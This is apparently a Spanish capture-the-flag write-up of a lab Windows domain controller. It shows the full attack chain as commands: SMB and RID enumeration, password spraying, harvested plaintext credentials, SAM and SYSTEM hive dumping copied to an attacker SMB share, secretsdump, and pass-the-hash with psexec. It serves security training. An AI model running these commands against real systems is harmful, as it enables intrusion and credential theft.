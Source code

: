 ![1](Images/1.png)

Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 10.10.11.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![2](Images/2.png)

Dado este output, podemos empezar a pensar que estamos ante un DC. No obstante, vamos a ver con exactitud qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.11.35 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,57500 -oN target -Pn``

![3](Images/3.png)

De este output podemos extraer cositas, como que el dominio es cicada.htb y el nombre de la máquina es cicada-dc. 

Vamos a recolectar un poco más de información sobre la máquina.

``netexec smb 10.10.1.35``

![4](Images/4.png)

Confirmamos la información que teníamos desde el output de nmap y que es un WS2022.

Podemos añadir esta información a nuestro /etc/hosts.

![5](Images/5.png)

Probamos a enumerar los recursos disponibles por SMB para el usuario guest:

``netexec smb 10.10.11.35 -u 'guest' -p '' --shares``

![6](Images/6.png)

Aparecen cosas interesantes y que no están por default, como el permiso de lectura para HR (HumanResources?).

Vamos a conectarnos por SMB para echarle un vistazo más a fondo.

``smbclient //10.10.11.35/HR -U 'guest'``

![7](Images/7.png)

Vemos que existe un archivo llamado "Notice from HR.txt". Nos traemos el archivo a la máquina atacante para analizar su contenido.

![8](Images/8.png)

Podemos visualizar cositas interesantes. Parece un mensaje default para nuevas contrataciones en la compañía Cicada. Lo primero (y más importante) que menciona es la importancia de cambiar la contraseña default 'Cicada$M6Corpb*@Lp#nZp!8'. Sin embargo, no tenemos el usuario al que está haciendo referencia.

Dado que con el usuario guest podemos enumerar los archivos compartidos, vamos a probar a utilizar --rid-brute para enumerar usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute``

![9](Images/9.png)

Bien. Nos saca output. Lo que vamos a hacer es redirigirlo todo a un archivo para hacer un tratamiento de los datos para quedarnos sólo con los nombres de usuario y generar un diccionario de usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute > smbusers.txt``

Una vez tenemos todo el output en un archivo, hacemos el tratamiento de datos.

``cat smbusers.txt | grep 'SidTypeUser'| cut -f2 -d '\' | cut -f1 -d '(' | cut -f1 -d ' ' > users.txt``

![10](Images/10.png)

Una vez tenemos el diccionario de usuarios, vamos a identificar si todos son usuarios válidos (que deberían):

``kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt``

![11](Images/11.png)

Genial. Los usuarios que tenemos son usuarios reales.

Ahora vamos a hacer uso de la técnica password spraying con la contraseña que hemos obtenido en el archivo compartido por SMB con los usuarios que tenemos:

``netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success``

![12](Images/12.png)6)

Ojo, tenemos un [+] para el usuario michael.wrightson, por lo que tenemos credenciales válidas.

michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8 

Sin embargo, si lanzamos netexec para winrm vemos que no tenemos un [+], por lo que este usuario no forma parte del grupo Remote Management Users y no podemos conectarnos usando evil-winrm. Seguimos enumerando.

Si nos conectamos por RPC para enumerar un poquito más:

``rpcclient -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35``

-> querydispinfo

![13](Images/13.png)

Muy interesante. La descripción del usuario david.orelious es:

``Just in case I forget my password is aRt$Lp#7t*VQ!3``

Tenemos una posible contraseña del usuario david.orelious. Vamos a validar esta credencial con netexec:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3'``

![14](Images/14.png)


Son credenciales válidas, pero tampoco forma parte del grupo Remote Management Users (igual que antes, netexec para winrm no reporta pwn3d), por lo que seguimos sin poder conectarnos a la máquina víctima.

Sin embargo, si vemos lo que se está compartiendo en SMB para este usuario:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares``

![15](Images/15.png)

El directorio DEV que se está compartiendo suena bastante interesante y tenemos permisos de lectura. Vamos a indagar.

``smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'``

![16](Images/16.png)

Nos traemos a la máquina víctima ese Backup_script.ps1 y le echamos un vistazo:

![17](Images/17.png)


Se encuentran claramente unas credenciales:
emily.oscars : Q!3@Lp#M6b*7t*Vt

Vamos a validarlas con netexec.

![18](Images/18.png)


Son credenciales válidas. Y si las probamos para winRM:

![19](Images/19.png)

Bingo, tenemos Pwn3d!
Por fin un usuario que forma parte del grupo Remote Management Users y que nos permite conectarnos.

Nos conectamos con evilwin-rm:

``evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'``

![20](Images/20.png)

Estamos dentro de la máquina víctima como el usuario emily.oscars.

Dentro de C:\Users\emily.oscars\Desktop encontramos la flag de usuario:

![21](Images/21.png)



# PRIVESC

``whoami /priv``

![22](Images/22.png)

El usuario tiene el privilegio SeBackupPrivilege. Muy buenas noticias.

Nos creamos una carpeta temp en C:\

![23](Images/23.png)

Para explotar este privilegio vamos a hacer una copia de SAM y SYSTEM que nos permitirá tener los hashes LM:NTLM de los demás usuarios.

``reg save hklm\sam c:\temp\sam``

``reg save hklm\system c:\temp\system``

![24](Images/24.png)


Vamos a compartir ambos recursos con la máquina atacante, para ello:

- Abrimos smbserver en máquina atacante:
  
``impacket-smbserver -smb2support test .``

- Desde máquina víctima realizamos la copia de ambos recursos (sam y system) en el servidor SMB de la máquina atacante:
  
``copy sam \\10.10.14.16\test\sam``

``copy system \\10.10.14.16\test\system``

![25](Images/25.png)


Una vez lo tenemos en máquina víctima, combinamos ambos archivos a través del uso de impacket-secretsdump:

``impacket-secretsdump -sam sam -system system LOCAL > sam.hashes``

Si observamos el contenido del archivo:

![26](Images/26.png)

Estupendo. Tenemos un posible hash NTLM del usuario Administrator. Vamos a validarlo vía netexec realizando pass the hash:

``netexec smb 10.10.11.35 -u Administrator -H ':2b87e7c93a3e8a0ea4a581937016f341'``

![27](Images/27.png)

Tenemos [+] y Pwn3d!, por lo que, no sólo son credenciales válidas, sino que podemos hacer uso directo de psexec para conectarnos a la máquina víctima:

``impacket-psexec administrator@10.10.11.35 -hashes ':2b87e7c93a3e8a0ea4a581937016f341'``

![28](Images/28.png)

Podemos recogemr la flag de Administrador en C:\Users\Administrator\Desktop:

![29](Images/29.png)
